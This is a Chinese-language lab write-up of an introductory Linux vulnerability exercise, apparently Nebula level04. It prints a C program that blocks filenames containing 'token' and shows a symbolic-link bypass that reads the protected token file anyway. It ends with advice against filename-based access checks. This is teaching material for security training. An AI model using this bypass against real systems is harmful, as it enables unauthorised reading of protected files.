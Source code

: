 # <center>Linux下漏洞分析入门实验</center>

## 实验概述

### 【目的】
1. 运行level04，查看token的内容
### 【环境】
Linux
### 【工具】
ln指令
### 【原理】
链接文件
通过链接文件，不同的文件名可以指向同一个文件。

ln 可以创建两种类型的链接文件：

符号链接，也称软链接，这是指向另一个不同路径文件的一个符号路径。
硬链接，这是一个存储了链接建立时它所指向文件的实际数据的文件副本。
## 实验步骤

### 【步骤】
#### level04
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```
这里要通过level04查看token，代码中有
```
if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }
```
所以无法直接把token作为参数。
这里可以使用ln规避参数中的token。
```
~/nebula$ ln -s ~/nebula/token Token
~/nebula$ ./level04 Token
u got it

```
### 【总结】

Linux的链接可以绕过对文件访问的限制。
在对文件访问做出限制时，要避免通过文件名来进行限制。